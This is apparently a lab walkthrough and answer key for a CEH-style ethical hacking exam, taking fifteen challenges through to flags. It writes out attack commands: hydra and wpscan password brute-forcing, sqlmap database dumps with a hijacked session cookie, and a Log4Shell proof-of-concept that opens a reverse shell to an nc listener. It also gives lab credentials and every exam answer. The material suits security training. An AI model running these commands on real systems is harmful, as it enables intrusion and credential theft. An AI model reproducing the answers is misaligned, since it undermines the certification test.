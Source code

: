 **Challenge** 1:
An attacker tried to perform session hijacking on a machine from 172.30.10.0/24 subnet. An incident handler found a packet capture file $_Jack.pcapng obtained from the victim machine which is stored in Documents folder of EH Workstation -1. You are assigned to analyse the packet capture file and determine the IP of the victim machine targeted by the attacker. (Format: NNN.NN.NN.NNN)
- open file in wireshark
- you can easily find the victim ip

Answer: 172.30.10.200

**Challenge** 2:
An attacker tried to intercept a login session by intercepting the http traffic from the victim machine. The security analyst captured the traffic and stored it in Downloads folder of EH Workstation -1 as Intercep_$niffer.pcapng. Analyse the pcap file and determine the credentials captured by the attacker. (Format: aaa/aaaa)
- Open file in wireshark
- filter http.request.method == POST 
- search for post login.aspx in list and extend the HTML Form

Answer: lee/test

**Challenge** 3:
A honeypot has been set up on a machine within the 192.168.10.0/24 subnet to monitor and detect malicious network activity. Your task is to analyze the honeypot log file, cowrie.log, located in the Downloads folder of EH Workstation -2, and determine the attacker IP trying to access the target machine. (Format: NNN*NN*NN*NN)
- Open file in pluma
- Search for ip with multiple login attemps

Answer: 172.30.10.99

**Challenge** 4:
Conduct a footprinting analysis on the target website www.certifiedhacker.com to identify the web server technology used by the site.(Format: Aaaaaa)
- whatweb certifiedhacker.com

Answer: Apache

**Challenge** 5:
You’re a cybersecurity investigator assigned to a high-priority case. Martin is suspected of engaging in illegal crypto activities, and it’s believed that he has stored his crypto account password in a file named $ollers.txt. Your mission is to crack the SSH credentials for Martin’s machine within the 192.168.10.0/24 subnet and retrieve the password from the $ollers.txt file. (Hint: Search in the folders present on the Desktop to find the target file) (Format: aNaa**NNNNNAA*)
- nmap -p 22 192.168.10.0/24 --open
- hydra -l Martin -P password.txt 192.168.10.101
- Password: qwerty1234
- ssh Martin@192.168.10.101   enter password and get the file

Answer: i2tr&^72546HJ*

**Challenge** 6:
Attackers have identified a vulnerable website and stored the details of this website on one of the machines within the 192.168.10.0/24 subnet. As a cybersecurity investigator you have been tasked to crack the FTP credentials of user nick and determine the ID of the domain. The information you need has been gathered and stored in the w_domain.txt file. (Format: NNNNNNNNNN)
- Use same procedure in Enage 2 **Challenge** 1 (ftp 192.168.10.111  and password in apple)
- get W_domain.txt

Answer: 7867721010

**Challenge** 7:
You have identified a vulnerable web application on a Linux server at port 8080. Exploit the web application vulnerability, gain access to the server and enter the content of RootFlag.txt as the answer. (Format: Aa*aaNNNN)

- First find the ip hosting website in port 8080 using nmap. Then do further steps
- In home execute 
- tar -xf jdk-8u202-linux-x64.tar.gz
- mv jdk1.8.0_202 /usr/bin
- cd log4j-shell-poc
- pluma poc.py
- Update the JDK Path in the Poc.py file
- Change Line no: 62, replace jdk1.8.0_20/bin/javac with "/usr/bin/jdk1.8.0_202/bin/javac"
- Change Line no: 87, replace jdk1.8.0_20/bin/java with "/usr/bin/jdk1.8.0_202/bin/java"
- Change Line no: 99, replace jdk1.8.0_20/bin/java with "/usr/bin/jdk1.8.0_202/bin/java"
- execute this in seperate terminal [ nc -lvp 9001]
- python3 poc.py --userip {ip of attacker pc} --webport 8080 --lport 9001
- Copy the [send this : value to be copied] from the output of previous command
- paste in username box and type any password in password box, click login
- Reverse shell connected in separate terminal where nc is listening
- type cat RootFlag.txt to view answer
- (If not connect to reverse shell reload the website and check the path and try again )

Answer: Ch@mp2022


**Challenge** 8:
You are a penetration tester assigned to a new task. A list of websites is stored in the webpent.txt file on the target machine with the IP address 192.168.10.101. Your objective is to find the Meta-Author of the website that is highlighted in the list. (Hint: Use SMB service) (Format: AA-Aaaaaaa)
- Connect to the ip with password found in **Challenge** 5
- get file from music folder of user Martin
- whatweb "url"

Answer: EC-Council

**Challenge** 9:

You have recently joined GoodShopping Inc. as a web application security administrator. Eager to understand the security landscape of the company’s website, www.goodshopping.com, you decide to investigate the security updates that have been made over time. Your specific task is to identify the attack category of the oldest Common Vulnerabilities and Exposures (CVEs) affected the website. (Format: aaaaa*aaaa aaaaaaaaaa (AAA) )
- I found manually you can use Owasp zap or open vas or vega to confirm 

Answer: cross-site scripting (XSS)

**Challenge** 10:
You are a web penetration tester hired to assess the security of the website www.goodshopping.com. Your primary task is to identify the type of security policies is missing to detect and mitigate Cross-Site Scripting (XSS) and SQL Injection attacks. (Format: Aaaaaaa Aaaaaaaa Aaaaaa)
- Run Atomated scan with OWASP ZAP

Answer: Content Security Policy

**Challenge** 11:
You are part of a cybersecurity team investigating an internal website that has been copied from a legitimate site without authorization. One of your teammates, acting as a spy, has scanned the website using a smart scanner within the subnet 192.168.10.0/24. Your task is to identify the number of Directory Listing of Sensitive Files on this website. The report, named w_report.pdf, is available on the target machine.(Hint: He remembered the OS as Windows Server 19 while scanning the website) (Format: NN)
- Use nmap to find Windows server 2019 inside 192.168.10.0/24 and brutefore that ip
- hydra -L user.txt -P rockyou.txt 192.168.10.144 ftp
- username: Parker and Password: Passw0rd@1234
- Access ftp and get w_report.txt
- open the report and read the site address
- Scan that website with Smart Scanner takes upto 30 min
- Scroll results to see Directory Listing of Sensitive Files.
- It shows 37 Approx but the answer is +/-1

Answer: 36

**Challenge** 12:
Perform a bruteforce attack on www.cehorg.com and find the password of user adam. (Format: aaaaaaNNNN)
- wpscan --url http://www.cehorg.com/wp-login.php -U adam -P password.txt
- use password list in desktop

Answer: orange1234

**Challenge** 13:
As a cybersecurity analyst, your task is to identify potential vulnerabilities on the moviescope.com website. Your manager has requested a specific number of risk categories. The required HTML file is located on EH Workstation 1. (Format: N)
- Open html file inside videos folder
- count the no of risk with value 1

Answer: 3

**Challenge** 14:
Perform a SQL Injection attack on www.moviescope.com and find out the number of users available in the database. (Format: N)
- Use credentials found in **Challenge** 2 to login.
- Copy the cookie value of user session lee in inspect element console, type document.cookie
- sqlmap -u "http://movies.cehorg.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" --dbs
- sqlmap -u "http://movies.cehorg.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" -D moveiscope --tables
- sqlmap -u "http://movies.cehorg.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" -D moviescope -T user-Login --dump

Answer: 5

**Challenge** 15:
Perform a SQL Injection vulnerability scan on the target website www.moviescope.com and determine the WASC ID for SQL Injection (Format: NN)
- Search for WASC ID for SQL Injection in google

Answer: 19


